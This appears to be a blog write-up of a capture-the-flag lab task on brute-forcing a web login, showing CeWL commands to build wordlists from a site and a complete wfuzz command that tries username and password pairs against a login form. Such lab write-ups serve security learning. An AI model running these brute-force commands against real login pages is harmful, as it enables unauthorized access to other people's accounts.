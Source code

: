```yaml
---
title: Post 54 - Brr
date: 2023-12-04
tags:
    - brute-forcing
    - cewl
    - wfuzz
---
```

## Task 10, Day 04, <code>Brute-forcing</code> Baby, it's CeWLd outside

CeWL is a custom wordlist generator that spiders websites to create word lists based on the site's content. Capability helps in brute-forcing and uncovering hidden directories using organization-specific terminology. Can also compile lists of email addresses or usernames from team member pages. 

Create basic list:<br>
<code>cewl http://ADDRESS</cool>

Create and save list to file:<br>
<code>cewl http://ADDRESS -w FILENAME.txt</code>

Since it's CLI, it can be easily integrated into automated workflows and outputs can be directly inserted into other tools.

In this case, use wfuzz to make use of outputs.<br>
```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://ADDRESS/login.php -d "username=FUZZ&password=FUZ2Z"
```

- <code>-c</code> output with colors
- <code>-z file,usernames.txt</code> loads the usernames list
- <code>-z file,passwords.txt</code> uses the password list generated by CeWL
- <code>--hs "Please enter the correct credentials"</code> hides responses containing the defined string
- <code>-u</code> target URL
- <code>-d "username=FUZZ&password=FUZ2Z"</code> provides POST data format to use and variables to replace

### The Task
Generate username and password word lists from the website, then use wfuzz to find the credentials that work and grab the flag from the email. 

Flag gotten.

#### Recommended room
Web Enumeration